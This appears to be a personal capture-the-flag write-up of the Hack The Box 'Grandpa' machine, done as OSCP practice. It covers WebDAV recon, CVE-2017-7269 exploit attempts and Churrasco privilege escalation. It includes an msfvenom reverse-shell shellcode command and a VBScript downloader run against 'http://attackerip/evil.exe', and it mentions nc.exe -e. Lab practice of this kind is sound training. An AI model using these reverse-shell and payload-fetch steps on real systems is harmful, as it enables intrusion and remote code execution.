 
Name: Grandpa
Date:  5/11/2022
Difficulty:  Easy
Goals:  OSCP Prep
Learnt:
- Old HTB boxes are weird
- I am sick weird old boxes  
- Need I pause too frantic
- XP go for vb script
- VM for Python2 feels bad before hand and then it feels great

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Grandpa/Screenshots/ping.png)

[[CVE-2000-0114-http___10.129.95.233__vti_inf.html]] is 0 in severity, but 
[[CVE-2017-7269-http___10.129.95.233]] is critical RCE 9.5! for a buffer overflow, which there is a metasploit exploit for [https://www.exploit-db.com/exploits/41992](https://www.exploit-db.com/exploits/41992). There is also an 
[Explaination](https://www.exploit-db.com/exploits/8704) for a Remote Authenication Bypass allowing unrestricted listing downloading and uploading of files into password protected WebDAV folder. The 8806.pl did seem to work and neither did adding `%c0%af` into `curl`'s against `/images/` and  `/_Private/`. 

![](searchsploitoutput.png )

I tried for serval hours over multiple months for this box, but I do not have the time to let learning fall by the wayside. Returning to this knowing it require authenicated bypassing 

![](webdav.png)

## Exploit

Headturning I thought about making this a Helpthrough with IT security, but
[Explodingcan](https://github.com/danigargu/explodingcan) was an options I remember, as I though about following along I decide to be the most OSCP about this and do this entirely with the python2 exploit. I had already had that written above and found and was a option. Emotionally I was frantic and am still abit for various reasons of due to the [[Granny-Helped-Through]].

I wanted ot use do bothmeterpreter and the shell version and privilege escalation on windows XP does bananas time wise. But I have been burnt really hard for time and stressing about myself that its sort of me, but it is also these boxes. 
```
msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=10.10.14.109 LPORT=80 > shellcode-met
```

```bash 
Traceback (most recent call last):
  File "41738.py", line 43, in <module>
    data = sock.recv(80960)
socket.error: [Errno 104] Connection reset by peer
```
Apparently
*Connection reset by peer" is the TCP/IP equivalent of slamming the phone back on the hook. It's more polite than merely not replying, leaving one hanging. But it's not the FIN-ACK expected of the truly polite TCP/IP converseur."*

The hellscape of python:
https://python.readthedocs.io/en/v2.7.2/library/httplib.html is renameed to http.client, 

I got a shell on the box, but I know would I run into the same issues, but I got metasploit issues. I know the metasploit exploit works, just not the privesc. I will finish this later a bit more calmly.

## Foothold && PrivEsc   

![](wmpubperm.png)
[0xdf](https://0xdf.gitlab.io/2020/05/28/htb-grandpa.html) also struggled and used [Churrasco](https://github.com/Re4son/Churrasco/)

## Windows-File-transferVBS-script
XP and 2003 lifesaver, from the OSCP course
BEWARE: "If creating on Linux and then transfer to windows then you may face issue sometime, use unix2dos before you transfer it in this case." 
Hakluke.
```vb
# wget.bs
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
Run with:
```powershell
cscript wget.vbs http://attackerip/evil.exe evil.exe
```

![](churrasco.png)

I tried the same nc.exe -e, because I have also never actually done that from Windows

![](system.png)
